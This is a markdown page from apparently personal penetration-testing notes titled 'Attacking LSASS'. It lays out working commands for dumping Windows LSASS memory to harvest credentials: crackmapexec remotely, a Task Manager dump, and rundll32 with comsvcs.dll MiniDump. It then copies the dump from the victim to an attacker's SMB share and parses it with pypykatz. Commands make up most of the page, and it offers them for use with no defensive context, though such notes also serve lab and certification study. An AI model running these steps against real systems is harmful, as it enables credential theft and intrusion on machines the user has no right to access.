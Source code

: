 ```yaml
---
title: Attacking LSASS
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - windows
---
```

# Attacking LSASS 

 LSASS stores credentials that have active logon sessions on Windows systems.  When we dumped LSASS process memory into the file, we essentially took a "snapshot" of what was in memory at that point in time.
 
## Dumping LSASS remotely

```bash
crackmapexec smb $ip --local-auth -u <username> -p <password> --lsa
```

## Dumping LSASS Locally

### Task Manager Method

The Task Manager method is dependent on us having a GUI-based interactive session with a target.

`Open Task Manager` > `Select the Processes tab` > `Find & right click the Local Security Authority Process` > `Select Create dump file`

A file called `lsass.DMP` is created and saved in:

  Attacking LSASS

```cmd-session
C:\Users\loggedonusersdirectory\AppData\Local\Temp
```

This is the file we will transfer to our attack host.  For instance, with [smbserver.py from impacket](smbserver.md).

```bash
# From the attacker machine (our kali) all we must do to create the share is run smbserver.py -smb2support using python, give the share a name (CompData) and specify the direct
#########################################
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/

# From the victim's machine (windows)
#########################################
move C:\Users\loggedonusersdirectory\AppData\Local\Temp\lsass.DMP  \\$ipAttacker\CompData
```

### Rundll32.exe & Comsvcs.dll Method

We can use an alternative method to dump LSASS process memory through a command-line utility called [rundll32.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/rundll32).

Modern anti-virus tools recognize this method as malicious activity.

```powershell
# Finding LSASS PID in cmd
tasklist /svc

# Finding LSASS PID in PowerShell
Get-Process lsass

# Creating lsass.dmp using an elevated PowerShell session
rundll32 C:\windows\system32\comsvcs.dll, MiniDump <PID> C:\lsass.dmp full
# With this command, we are running rundll32.exe to call an exported function of comsvcs.dll which also calls the MiniDumpWriteDump (MiniDump) function to dump the LSASS process memory to a specified directory (C:\lsass.dmp). 
```

Transfer file to attacking machine.

For instance, with [smbserver.py from impacket](smbserver.md).

```bash
# From the attacker machine (our kali) all we must do to create the share is run smbserver.py -smb2support using python, give the share a name (CompData) and specify the direct
#########################################
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/

# From the victim's machine (windows)
#########################################
# If you are from powershell
cmd.exe /c move C:\lsass.dmp
# If you have a cmd terminal
move C:\lsass.dmp  \\$ipAttacker\CompData
```



## Crack the lsass file withPypykatz

[pypykatz](pypykatz.md) parses the secrets hidden in the LSASS process memory dump.

```bash
pypykatz lsa minidump /home/path/lsass.dmp 
```


